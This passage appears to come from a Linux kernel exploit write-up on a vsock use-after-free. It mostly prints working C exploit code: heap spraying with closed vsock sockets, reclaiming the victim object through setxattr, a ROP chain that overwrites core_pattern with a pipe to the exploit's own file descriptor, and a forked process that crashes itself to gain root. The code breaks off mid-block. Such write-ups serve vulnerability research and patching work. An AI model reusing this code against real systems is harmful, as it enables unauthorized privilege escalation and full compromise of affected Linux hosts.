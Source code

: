 ```c
                close(sprayed_vsock[i]);

        for (int i = target2; i < back; i++)
                close(sprayed_vsock[i]);
```

Then, we call `setxattr()` to reclaim the victim vsock into a `struct simple_xattr`.

```c
        for (int i = 0; i < 0x3000; i++) {
#define ATTRIBUTE_NAME_LEN 0x20
                snprintf(file_name, 0x100, "/tmp/xattrs%d", i);
                create_xattr(file_name, attribute_name, spray, XATTR_VALUE_KMALLOC_CG_16K, true);
        }
```

The ROP payload used at this point is as follows:

```c
        char core_pattern_buf[0x100] = "|/proc/%P/fd/666 %P";
        uint64_t *rops = spray_chunk.sk.dummy;
        int t = 0;
        rops[t++] = prdi_rsi_rdx_rcx;
        rops[t++] = 0;
        rops[t++] = 0x0a0000;// 0x12 must be 10(TCP_LISTEN)
        rops[t++] = 0;
        rops[t++] = 0;
        rops[t++] = prdi_rsi_rdx_rcx;
        rops[t++] = core_pattern;
        rops[t++] = (uint64_t)core_pattern_buf;
        rops[t++] = strlen(core_pattern_buf);
        rops[t++] = 0;
        rops[t++] = copy_from_user;
        rops[t++] = msleep;
        
        for(int i=0x500; i<0x4000; i+=0x500) {
                *((struct vsock_sock *)(spray + i)) = spray_chunk;
        }
```

## Achieve root privileges using core_pattern

Because we achieve RIP control in the worker context, we cannot return to user mode to spawn a shell. Therefore, in our ROP payload we use `copy_from_user()` to overwrite `core_pattern` with `"|/proc/%P/fd/666 %P"`. We then register ourselves on file descriptor 666 via `memfd_create()` and trigger a crash.

```c
        if (!fork()) {
                cpu_affinity(1);
                while (1) {
                        if (check_core()) {
                                printf("core pattern changed!\n");
                                char buf[0x100] = {};
                                int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
                                read(core, buf, sizeof(buf));
                                write(1, buf, sizeof(buf));
                                if (!fork()) {
                                        int memfd = memfd_create("x", 0);
                                        sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff);
                                        dup2(memfd, 666);
                                        close(memfd);

                                        // trigger crash
                                        *(size_t *)0 = 0;

```